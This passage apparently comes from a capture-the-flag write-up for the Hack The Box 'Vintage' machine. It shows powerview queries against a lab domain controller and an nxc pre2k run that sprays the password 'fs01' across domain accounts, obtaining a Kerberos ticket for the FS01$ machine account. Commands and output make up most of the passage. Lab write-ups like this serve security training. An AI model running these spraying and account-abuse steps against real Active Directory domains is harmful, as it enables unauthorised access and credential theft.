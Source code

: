 Lets login powerview and check FS01 Properties

```bash
➜  Vintage powerview vintage.htb/'P.Rosa'@DC01.vintage.htb --dc-ip 10.10.11.45 -k --no-pass
Logging directory is set to /root/.powerview/logs/vintage-p.rosa-dc01.vintage.htb
[2025-04-24 15:51:24] [Storage] Using cache directory: /root/.powerview/storage/ldap_cache
(LDAP)-[dc01.vintage.htb]-[VINTAGE\P.Rosa]
PV > Get-DomainComputer -Identity FS01 -Properties *
```

![alt text](../assets/images/vintage7.png)

its great we learn something new so lets check privileges of FS01 machine account. So we can understand everything more clear.
### pre2k

```powershell
➜  Vintage nxc ldap DC01.vintage.htb -u usernames.txt -p fs01 -k -M pre2k
LDAP        DC01.vintage.htb 389    dc01.vintage.htb [*]  x64 (name:dc01.vintage.htb) (domain:vintage.htb) (signing:True) (SMBv1:False)
LDAP        DC01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\Administrator:fs01 KDC_ERR_PREAUTH_FAILED
LDAP        DC01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\Guest:fs01 KDC_ERR_CLIENT_REVOKED
LDAP        DC01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\krbtgt:fs01 KDC_ERR_CLIENT_REVOKED
LDAP        DC01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\DC01$:fs01 KDC_ERR_PREAUTH_FAILED
LDAP        DC01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\gMSA01$:fs01 KDC_ERR_PREAUTH_FAILED
LDAP        DC01.vintage.htb 389    dc01.vintage.htb [+] vintage.htb\FS01$:fs01 
PRE2K       DC01.vintage.htb 389    dc01.vintage.htb [+] Successfully obtained TGT for 0 pre-created computer accounts. Saved to /root/.nxc/modules/pre2k/ccache
```
